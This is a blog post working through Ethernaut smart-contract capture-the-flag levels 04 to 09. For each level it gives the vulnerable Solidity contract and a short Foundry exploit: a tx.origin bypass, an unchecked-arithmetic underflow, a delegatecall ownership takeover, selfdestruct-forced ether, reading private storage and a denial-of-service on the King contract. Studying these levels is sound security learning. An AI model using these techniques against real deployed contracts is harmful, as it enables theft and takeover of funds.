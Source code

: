 ################################
Let's play some more Ethernauts!
################################
:slug: lets-play-some-more-ethernauts
:date: 2023-07-14
:summary: from 04-Telephone through 08-Vault
:tags: programming
:author: capu
:featured_image:

04-Telephone
============

Objective
---------
Become the contract's owner

Code
----

.. code-block:: solidity

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }

Solution
--------
This one's cheating. Since the tests are run from a contract, ``msg.sender`` is
going to be different from ``tx.origin`` already.

A funny thing though, is that the address Foundry sets as the EOA initiating the
transactions (``0x1804c8AB1F12E6bbf3894d4083f33e07309d1f38``) has assets in a
few networks, even 0.00001 ETH on mainnet. Figuring out how is foundry's test
EOA determined is a rabbit hole for another day

05-Token
========

Objective
---------
Increase your balance from the initial 20.

Code
----

.. code-block:: solidity

    contract Token {
        mapping(address => uint256) balances;
        uint256 public totalSupply;

        constructor(uint256 _initialSupply) {
            balances[msg.sender] = totalSupply = _initialSupply;
        }

        function transfer(address _to, uint256 _value) public returns (bool) {
            // We updated this with unchecked so it behaves as per the original code
            // written to be compiled with solidity ^0.6.0
            // As of ^0.8.0, arithmetic ops will revert on over/underflow
            // On ^0.6.0, it will wrap
            unchecked {
                require(balances[msg.sender] - _value >= 0);
                balances[msg.sender] -= _value;
                balances[_to] += _value;
                return true;
            }
        }

        function balanceOf(address _owner) public view returns (uint256 balance) {
            return balances[_owner];
        }
    }

Solution
--------
Yet another one made obsolete by safety improvements to Solidity itself 🙃 now
it's clear the problem is an overflow in the transfer arithmetic. 

Particularly, the expression inside the require: ``balances[msg.sender] - _value
>= 0`` will always evaluate to ``true``, because the ``-`` operates on two
``uint256`` s, which cannot represent negative values

.. code-block:: solidity

    function solution(Token target) internal virtual {
        target.transfer(address(factory), 21);
    }

So transferring someone else more 1 more tokens than my balance will cause an
overflow and assign ``uint256(20 - 21)`` tokens to me. Which is a pretty big
number.

06-Delegation
=============

Objective
---------
Become the contract owner

Code
----
.. code-block:: solidity

    contract Delegate {
        address public owner;

        constructor(address _owner) {
            owner = _owner;
        }

        function pwn() public {
            owner = msg.sender;
        }
    }

    contract Delegation {
        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }

Solution
--------
The ``Delegation`` contract is passed the address of the ``Delegate`` at construction
time, and forwards all calls to it.

This means the code that'll actually be executed when calling anything on the
``Delegation`` contract is the one in ``Delegate``.

Then it's a matter of performing the call. It's not necessary to construct the
call manually, it's enough to cast the ``Delegation`` into a ``Delegate``

.. code-block:: solidity

    function solution(Delegation target) internal virtual {
        Delegate(address(target)).pwn();
    }


07-Force
========

Objective
---------
This challenge is a bit different, the objective being to make the Force
contract have a non-zero balance

Code
----
\...the contract is empty

Solution
--------
An empty contract will revert when called, since it doesn't have a ``receive``
or ``fallback payable`` function, rejecting ether transfers, with or without
calldata.

A workaround against this is the ``selfdestruct`` opcode, which will send ETH to
a contract with no posibility for it to reject it.

.. code-block:: solidity

    contract Emo {
        constructor()payable{} // solhint-disable no-empty-blocks
        function kms(address payable beneficiary) public {
            selfdestruct(beneficiary);
        }
    }

.. code-block:: solidity

    function solution(Force target) internal virtual {
        Emo emo = new Emo{value: 1}();
        emo.kms(payable(address(target)));
    }

08-Vault
========

Objective
---------

Code
----
.. code-block:: solidity

    contract Vault {
        bool public locked;
        bytes32 private password;

        constructor(bytes32 _password) {
            locked = true;
            password = _password;
        }

        function unlock(bytes32 _password) public {
            if (password == _password) {
                locked = false;
            }
        }
    }


Solution
--------

I think this one's gonna be pretty easy if I look into the ``VaultFactory``. The
original intended solution was probably to find the password in the level
creation transaction.

So let's take it as an opportunity to use foundry's api to inspect storage
slots instead.

.. code-block:: solidity

    function solution(Vault target) internal virtual {
        bytes32 password = vm.load(address(target), bytes32(uint256(1)));
        target.unlock(password);
    }

Curiously enough, the `load` cheatcode takes a ``bytes32`` parameter when I
always tought of the slots as being indices, which would normally be ``uint256``

It's worth noting that it's not something exclusive to foundry, and an Ethereum
RPC can answer the query just as well


09-King
=======

Objective
---------
Become the king of this contract, and also don't let anyone else become king
after you.

Code
----
.. code-block:: solidity

    contract King {
        address payable king;
        uint256 public prize;
        address payable public owner;

        constructor() payable {
            owner = payable(msg.sender);
            king = payable(msg.sender);
            prize = msg.value;
        }

        receive() external payable {
            require(msg.value >= prize || msg.sender == owner);
            king.transfer(msg.value);
            king = payable(msg.sender);
            prize = msg.value;
        }

        function _king() public view returns (address payable) {
            return king;
        }
    }


Solution
--------
Let's look into the ``KingFactory`` contract, which determines wether the
challenge is solved or not:

.. code-block:: solidity

    function validateInstance(address payable _instance, address _player) public override returns (bool) {
        _player;
        King instance = King(_instance);
        (bool result,) = address(instance).call{value: 0}("");
        !result;
        return instance._king() != address(this);
    }

The ``KingFactory`` contract, which is the ``King``'s owner, calls the fallback
function, but ignores whether it reverts or succeeds.

The ``King`` contract, however, uses a regular ``transfer``, which reverts when
the callee does.

Then, it's a matter of making a contract without a fallback/receive function
King.

.. code-block:: solidity

    contract GrumpyKing {
        function coronate(address payable where) public payable {
            where.call{value: msg.value}("");
        }
    }

.. code-block:: solidity

    function solution(King target) internal virtual {
        GrumpyKing grumpy = new GrumpyKing();
        grumpy.coronate{value: 0.001 ether}(payable(target));
    }

That was fun. See you next week!
